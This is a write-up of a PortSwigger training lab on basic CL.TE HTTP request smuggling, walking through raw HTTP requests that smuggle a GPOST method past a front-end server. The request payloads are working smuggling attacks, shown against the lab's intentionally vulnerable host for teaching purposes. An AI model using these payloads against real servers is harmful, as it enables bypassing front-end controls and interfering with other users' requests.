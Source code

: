 # HTTP request smuggling, basic CL.TE vulnerability | Jan 27, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te), you'll learn: HTTP request smuggling, basic CL.TE vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-1/images/Pasted%20image%2020230127175856.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-1/images/Pasted%20image%2020230127180117.png)

In here, we can send this request to Burp Suite's Repeater, and try to smuggle a request using method GPOST:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-1/images/Pasted%20image%2020230127180221.png)

First, we can try to directly modify the method to GPOST:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-1/images/Pasted%20image%2020230127180254.png)

As you can see, **the front-end server rejects requests that aren't using the GET or POST method.**

Now, we can try to smuggle a request that using GPOST in the back-end server.

- **Using POST method and add 2 HTTP header**:

1. `Content-Length`
2. `Transfer-Encoding`

> The `Transfer-Encoding` header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero.

In here, we can try to **assume the front-end server uses `Transfer-Encoding` header, and the back-end server uses the `Content-Length` header. (AKA TE.CL)**

We can perform a simple HTTP request smuggling attack as follows:

```http
POST / HTTP/1.1
Host: 0a3b0040037bbd6cc1086ccb0028004f.web-security-academy.net
Content-Length: 3
Transfer-Encoding: chunked

5
GPOST
0
```

This request will let the front-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 5 bytes long, up to the start of the line following `GPOST`. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the `Content-Length` header and determines that the request body is 3 bytes long, up to the start of the line following `5`. The following bytes, starting with `GPOST`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-1/images/Pasted%20image%2020230127182754.png)

> Note: To send the request, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
>  
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-1/images/Pasted%20image%2020230127181834.png)
>  
> You need to include the trailing sequence `\r\n\r\n` following the final `0`.

However, when we send the request, we get a HTTP status 500 Internal Server Error. Which means the front-end uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. (AKA CL.TE)

**To smuggle a request via CL.TE, we can send the following POST request:**
```http
POST / HTTP/1.1
Host: 0a3b0040037bbd6cc1086ccb0028004f.web-security-academy.net
Content-Length: 10
Transfer-Encoding: chunked

0

GPOST
```

The front-end server processes the `Content-Length` header and determines that the request body is 10 bytes long, up to the end of `SMUGGLED` (`0\r\n\r\nGPOST`). This request is forwarded on to the back-end server.

The back-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. The following bytes, `GPOST`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

**Let's send that smuggled request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-1/images/Pasted%20image%2020230127183331.png)

> Note: You need to send the smuggled request twice.

As you can see, we successfully smuggled the GPOST method request!

However, the back-end doesn't know what is GPOSTPOST method.

**To fix that, we can add the following request and header:**
```http
POST / HTTP/1.1
Host: 0a3b0040037bbd6cc1086ccb0028004f.web-security-academy.net
Content-Length: 31
Transfer-Encoding: chunked

0

GPOST / HTTP/1.1
Origin: 
```

**This will smuggle:**
```http
GPOST / HTTP/1.1
Origin: 
```

Which is using GPOST method, send the request to `/` using HTTP version 1.1, and add an `Origin` HTTP header to append the back-end's POST method:

**The back-end server will see:**
```http
GPOST / HTTP/1.1
Origin: POST
```

**Let's send the request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-1/images/Pasted%20image%2020230127183852.png)

Boom! We successfully smuggled a GPOST method request!

# What we've learned:

1. HTTP request smuggling, basic CL.TE vulnerability